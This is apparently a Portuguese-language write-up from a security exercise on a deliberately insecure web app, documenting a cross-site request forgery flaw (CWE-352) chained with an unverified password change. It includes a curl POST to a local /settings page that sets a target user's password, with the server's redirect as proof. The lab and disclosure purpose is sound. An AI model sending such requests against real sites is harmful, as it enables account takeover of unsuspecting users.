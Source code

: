 ## CWE-352: Cross-Site Request Forgery (CSRF)
- https://cwe.mitre.org/data/definitions/352.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-352-cross-site-request-forgery-csrf).**

---
## Exploração da vulnerabilidade

Na aplicação insegura, nem as páginas enviam um CSRF token, nem o servidor confirma a sua existência.

Aproveitando a vulnerabilidade [Unverified Password Change](CWE-620.md) e sabendo o email de um utilizador, é possível alterar-lhe a password, sem saber a atual, com um POST para a página das *Account Settings*. Para isso, não é necessário estar autenticado nem sequer estar no website, uma vez que o CSRF token não é verificado pelo servidor.

Usando o comando ```curl```, para enviar pedidos HTTP na linha de comandos do sistema operativo, é possível explorar esta vulnerabilidade.

**Código exemplo**:

PEDIDO:
```bash
# Ataque CSRF bem-sucedido: alterar a password do utilizador com email "target@example.com" para "xyz"
curl -X POST http://localhost:[PORT]/settings -H "Content-Type: application/x-www-form-urlencoded" -d "email=target@example.com&new_password=xyz"
```
RESPOSTA:
```html
<!-- A resposta é um redirect para a página de login, o que significa que a password foi alterada -->
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
```
